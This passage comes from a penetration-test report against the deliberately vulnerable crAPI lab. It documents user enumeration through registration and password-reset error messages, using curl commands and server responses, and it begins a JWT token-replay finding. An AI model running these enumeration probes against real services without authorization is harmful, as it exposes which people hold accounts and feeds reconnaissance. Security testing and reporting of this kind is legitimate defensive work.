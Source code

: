 **Proof of Impact:**
- Response: `"Number already registered! Number: 1234567890"`
- Observed during manual testing: `"Email already registered! Email: user@example.com"`
- Enables systematic enumeration of registered users and phone numbers

### AUTH-VULN-10: User Enumeration via Password Reset Error Messages

**Summary:**
- **Vulnerable location:** `POST /identity/api/auth/forget-password` responses
- **Overview:** Different responses reveal account existence during password reset
- **Impact:** Privacy violation and reconnaissance capability
- **Severity:** Medium

**Prerequisites:** None

**Exploitation Steps:**

1. Test non-existent email:
```bash
curl -k -X POST "https://crapi.sandbox.local:8888/identity/api/auth/forget-password" -H "Content-Type: application/json" -d '{"email": "nonexistent@test.com"}'
```
Response: HTTP 404 - `"Given Email is not registered! nonexistent@test.com"`

2. Test existing email:
```bash
curl -k -X POST "https://crapi.sandbox.local:8888/identity/api/auth/forget-password" -H "Content-Type: application/json" -d '{"email": "test@example.com"}'
```
Response: HTTP 200 - `"OTP Sent on the provided email, test@example.com"`

**Proof of Impact:**
- Clear HTTP status code and message differences
- Successfully enumerated valid accounts through response analysis
- No rate limiting prevents automated enumeration

### AUTH-VULN-11: Token Replay Attack (No Logout Functionality)

**Summary:**
- **Vulnerable location:** JWT token lifecycle management
- **Overview:** No server-side token invalidation mechanism exists
- **Impact:** Stolen tokens remain valid for full 7-day lifespan
- **Severity:** High

**Prerequisites:**
- Compromised JWT token

**Exploitation Steps:**

1. Decode JWT to verify 7-day expiration:
```json
{
  "sub": "test@example.com",
  "iat": 1758655244,
  "exp": 1759260044,
  "role": "user"
}
```
